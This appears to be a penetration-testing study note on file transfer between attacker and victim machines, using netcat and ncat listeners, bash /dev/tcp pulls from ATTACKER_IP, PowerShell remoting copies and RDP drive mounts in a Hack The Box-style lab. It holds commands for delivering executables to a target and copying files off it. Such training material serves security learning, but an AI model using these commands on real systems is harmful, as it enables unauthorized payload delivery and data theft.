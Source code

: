 # File Transfers
## @Author : M3tr1c_r00t
### Miscellaneous File Transfer
#### Netcat
Netcat, also known as nc, is a versatile command-line tool for networking that can be used for reading or writing data across network connections. It is often referred to as a "Swiss Army knife" for TCP/IP networking because it can perform a wide range of tasks, such as port scanning, file transfer, and network debugging.

Netcat allows you to establish TCP or UDP connections, listen on ports for incoming connections, and redirect data streams. It can also act as a simple server or client, and can be used to transfer files between machines.

Some of the most common use cases for netcat include:
- Port scanning: Netcat can be used to check which ports are open on a remote system by attempting to connect to them.
- Chatting: Netcat can be used to have a simple chat between two users on different machines.
- Transferring files: Netcat can be used to transfer files between machines by reading from one machine and writing to the other.

#### Ncat
Ncat is a modern, feature-rich version of the classic netcat tool. It is part of the Nmap suite of network security tools and is designed to provide a more secure and flexible way of performing many of the same networking tasks as netcat, as well as some additional functionality.

Like netcat, Ncat can be used to create TCP or UDP connections, listen on ports for incoming connections, and redirect data streams. It can also be used for port scanning, banner grabbing, and other network debugging tasks.

One of the key differences between Ncat and netcat is that Ncat supports encryption and authentication, which makes it more secure and suitable for use in sensitive environments. Ncat supports a wide range of encryption algorithms, including SSL, TLS, and SSH, and can be used to create secure tunnels between machines.

Another important feature of Ncat is its support for IPv6, which makes it a useful tool for testing and working with IPv6 networks.

#### File Transfer Using Netcat and Ncat
##### Method1
__(nc)Target Machine/victim__;
```
#This will be recieving the file on port 8000(-p) in listen mode(-l).
nc -l -p 8000 > file.exe
```
__(Ncat)Target Machine/victim__;
```
#--recv-only will close the connection after the file transfer is completed.
ncat -l -p 8000 --recv-only > file.exe
```

__(nc)Attacker Machine__;
```
# -q 0 tells netcat to close the connection after the full file transfer.
nc -q 0 TARGET_IP 8000 < file.txt
```
__(Ncat)Attacker Machine__;
```
#--send-only close the connection after the full file transfer.
ncat --send-only TARGET_IP 8000 < file.exe
```
##### Method 2 (Sending File as an input)
__(nc)Attacker Machine__;
```
sudo nc -l -p 443 -q 0 < file.exe
```
__(Ncat)Attacker Machine__;
```
sudo ncat -l -p 443 --send-only < file.exe
```
__(nc)Target Machine__;
```
nc ATTACKER_IP 443 > file.exe
```
__(Ncat)Target Machine__;
```
ncat ATTACKER_IP 443 --recv-only > file.exe
```
If the target machine doesnt have nc/ncat, we can use bash /dev/tcp to recieve the file.
```
cat < /dev/tcp/ATTACKER_IP/443 > file.exe
```
#### Powershell Session File Transfer
In some cases, HTTP,HTTPS and SMB may be un available.
In this case, we can use powershell remoting which uses the WinRM protocol to establish a secure and authenticated connection.

It is commonly used by administrators to manage remote computers in a network and for file tranfer operations.

By default,if enabled, WinRM listens on default ports such as TCP/5985 for HTTP and TCP/5986 for HTTPS.

In order for us to be able to achieve file transfer, we need to have administrative access.(Be a Member of the Remote Management Users Group./explicit permissions for powershell remoting.)

__Confirming the Winrm Ports are open__;
```
 Test-NetConnection -ComputerName DATABASE01 -Port 5985
 #If it returns true, it is open.(We wont be prompted for a password if we have administrative access.)
```
![image](https://user-images.githubusercontent.com/99975622/222724566-e1c61aef-3cbe-4b39-927c-c3400071aded.png)
Copy samplefile.txt from our Localhost to the DATABASE01 Session
```
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
Copy DATABASE.txt from DATABASE01 Session to our Localhost
```
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
#### RDP
![image](https://user-images.githubusercontent.com/99975622/222725436-e642646c-c943-4902-970a-b684f6a98488.png)
Mounting a Linux Folder Using rdesktop
```
MetricCode@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
Mounting a Linux Folder Using xfreerdp
```
MetricCode@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
![image](https://user-images.githubusercontent.com/99975622/222725756-05717f9e-7050-4793-8484-765474b3ed09.png)
![image](https://user-images.githubusercontent.com/99975622/222725993-b1e8ac3e-d3e6-4f1f-b392-ce46d025b983.png)

## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
   
